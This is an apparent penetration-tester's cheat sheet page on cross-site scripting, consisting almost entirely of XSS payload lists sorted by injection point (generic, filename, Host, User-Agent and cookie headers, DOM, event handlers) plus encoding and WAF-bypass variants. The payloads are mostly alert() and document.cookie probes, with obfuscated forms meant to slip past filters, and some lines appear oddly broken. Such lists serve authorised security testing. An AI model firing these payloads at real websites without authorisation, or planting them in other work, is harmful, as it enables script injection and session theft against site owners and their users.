 ```yaml
---
title : "XSS"
pre : '<i class="fab fa-js"></i> '
description : "Cross-Site-Scripting payloads."
date : 2021-12-07T17:10:24+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Cross-Site Scripting (XSS)

## Generic

```plain
<Svg/Onload=1
c5obc'+alert(1)+'p7yd5
<svg onload=alert(1)>
<script>alert(1)</script>
<</p>iframe src=javascript:alert()//
<script>alert('PoC')</script>
"><script>alert('XSS')</script>
"><script>alert(document.domain)</script>
"><img src=x onerror="alert(document.domain)">
<scr ipt>ale rt (1) </scr ipt>
%3cscript>alert('PoC')</script>
%25%33%63script>alert('PoC')</script>
&#x3c;script>alert('PoC')</script>
</script><script>alert(1)</script>
["</script><script>alert(1)</script>"]
<a href="x">test</a>
<img src=x />
<img src=x onerror="alert(1);" />
&#x3c;script>alert(1)&#x3c;/script>
<img src=x onerror="alert(document.cookie);" />
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><
<a href="javascript:alert('PoC')">Click me</a>
<p><script>alert(1)</script></p>
<i nput type="text" id="search-text" name="query" value="" onfocus="alert(1)" autofocus="" />
draggable=true ondragstart="alert(1)
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>
<</div>script</div>>alert()<</div>/script</div>>
"><a href=j<TAB><NEWLINE><TAB><NEWLINE><TAB><NEWLINE>avascript:confirm("payload")>XSSs</a>
```

### WAF bypass

```plain
%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a
```

### XSS in filename

```plain
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
```

### Host header

```plain
"> <script>alert(1)</script>
```

### Chrome and FireFox

Standard

```plain
<script>alert(1)</script>
<a href="javascript:alert(1)">XSS</a>
<a href="JaVaScript:alert(1)">XSS</a>
<iframe src="javascript:alert(1)">
<script src="data:text/javascript,alert(1)"></script>
<svg><use href="data:image/svg+xml,<svg id='x' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' width='100' height='100'><a xlink:href='javascript:alert(1)'><rect x='0' y='0' width='100' height='100' /></a></svg>#x"></use></svg>
```

onclick

```plain
<a onclick="alert(1)">test</a>
<body onclick="alert(1)">test</body>
<textarea onclick="alert(1)">test</textarea>
<p onclick="alert(1)">test</p>
<svg onclick="alert(1)">test</svg>
<iframe onclick="alert(1)">test</iframe>
```

onmouseover

```plain
<a onmouseover="alert(1)">test</a>
<body onmouseover="alert(1)">test</body>
<p onmouseover="alert(1)">test</p>
<svg onmouseover="alert(1)">test</svg>
```

onload

```plain
<body onload=alert(1)>
<svg onload=alert(1)>
<iframe onload=alert(1)></iframe>
```

onerror

```plain
<image src/onerror=alert(1)>
<img src/onerror=alert(1)>
<script onerror=alert(1) src=/></script>
<body onerror=alert(1) onload=/>
```

### DOM-based

```plain
javascript:alert(¨DOM")
"><script>alert(document.cookie)</script>
alert(1)
alert(document.cookie)
#<script>alert('xss')</script>
```

### User-agent

```plain
</SCript><svG/onLoad=alert(document.domain)>
```

### XSS in cookie header

```plain
Cookie: PHPSESSID=hd<script>alert(document.cookie)</script>np5
```

### URL list

* [Portswigger.net Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
